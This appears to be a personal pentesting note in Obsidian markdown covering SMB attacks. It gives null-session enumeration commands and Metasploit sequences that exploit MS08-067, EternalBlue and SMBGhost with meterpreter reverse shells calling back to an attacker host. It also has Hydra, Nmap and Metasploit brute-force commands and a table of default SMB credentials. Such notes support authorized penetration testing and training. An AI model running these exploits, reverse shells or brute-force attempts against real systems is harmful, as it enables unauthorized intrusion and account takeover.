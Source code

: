 ```yaml
---
id: Exploitation
aliases: []
tags:
  - Networking/Services/SMB/Exploitation
links: "[[SMB]]"
---
```


# Exploitation

## Checklist

> [!todo]

- [ ] [[Enumeration#RPCclient|RPCclient]]
    - [ ] [[Enumeration#Connect|Connect]]
- [ ] [[Usage#Smbclient|Smbclient]]
    - [ ] [[Usage#Connect|Connect]]
        - [ ] [[Usage#Linux|Linux]]
        - [ ] [[Usage#Windows|Windows]]
    - [ ] [[Usage#SMB Actions|Enumeration]]

- [ ] [[Exploitation#Metasploit|Metasploit]]
- [ ] [[Exploitation#Common Credentials|Common Credentials]]
- [ ] [[Exploitation#Brute Force|Brute Force]]
- [ ] [[Exploitation#EternalBlue|EternalBlue]]


<!-- SMB Null Session {{{-->
## SMB Null Session

An [SMB Null Session](https://hackviser.com/tactics/pentesting/services/smb#smb-null-session)
refers to an unauthenticated connection to an SMB server

[[Enumeration#RPCclient|RPCclient]]

```sh
rpcclient -U "" <target_ip>
```

[[Usage#smbclient|smbclient]]

```sh
smbclient -L //<target_ip> -N
```

[[Enumeration#SMBmap|SMBmap]]

```sh
smbmap -H <target_ip> -u "" -p ""
```

<!-- }}} -->

<!-- IPC$ Share {{{-->
## IPC$ Share

Access to the
[IPC$](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-smb/index.html#ipc-share)
share can be obtained through an anonymous null session.

> [!todo]

[[Enumeration#Enum4Linux-ng|Enum4Linux-ng]] can be utilized to interact
with the exposed services via named pipes.

<!-- }}} -->

<!-- Metasploit {{{-->
## Metasploit

Search for exploits with Metasploit

```sh
msf> search type:exploit platform:windows target:2008 smb
searchsploit microsoft smb
```

### CVE Exploits

#### MS08-067 (Netapi)

```sh
use exploit/windows/smb/ms08_067_netapi
set RHOSTS target.com
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST attacker-ip
exploit
```

#### MS17-010 (EternalBlue)

```sh
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS target.com
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST attacker-ip
exploit
```

#### SMBGhost (CVE-2020-0796)

```sh
use exploit/windows/smb/cve_2020_0796_smbghost
set RHOSTS target.com
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST attacker-ip
exploit
```

<!-- }}} -->

<!-- Brute Force {{{-->
## Brute Force

### Nmap

Brute force SMB login with [[Nmap]]'s
[smb-brute](https://nmap.org/nsedoc/scripts/smb-brute.html)

```sh
nmap --script smb-brute -p 445 <target_ip>
```

### Hydra

Brute force SMB login with [[Pentest/Brute Force/Hydra]]

```sh
hydra -l <target_user> -P <passwords.txt> <target_ip> smb -t 1
```

```sh
hydra -l administrator -P <passwords.txt> smb://<target_ip>
```

### Metasploit

```sh
use auxiliary/scanner/smb/smb_login
set RHOSTS target.com
set USER_FILE /path/to/users.txt
set PASS_FILE /path/to/passwords.txt
set STOP_ON_SUCCESS true
exploit
```

<!-- }}} -->

<!-- Common Credentials {{{-->
## Common Credentials

> [!danger]-
>
> | Username             | Password                                |
> | -------------------- | --------------------------------------- |
> | (blank)              | (blank)                                 |
> | guest                | (blank)                                 |
> | Administrator, admin | (blank), password, administrator, admin |
> | arcserve             | arcserve, backup                        |
> | tivoli, tmersrvd     | tivoli, tmersrvd, admin                 |
> | backupexec, backup   | backupexec, backup, arcada              |
> | test, lab, demo      | password, test, lab, demo               |
<!-- }}} -->

<!-- EternalBlue {{{-->
## EternalBlue

Some SMB versions may be vulnerable to RCE exploits such as
[EternalBlue](https://www.avast.com/c-eternalblue).

Metasploit has several [modules](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/)
for EternalBlue that can be used to validate and exploit the vulnerability.

```sh
nmap -A -p445 <target_ip>
```

<!-- }}} -->
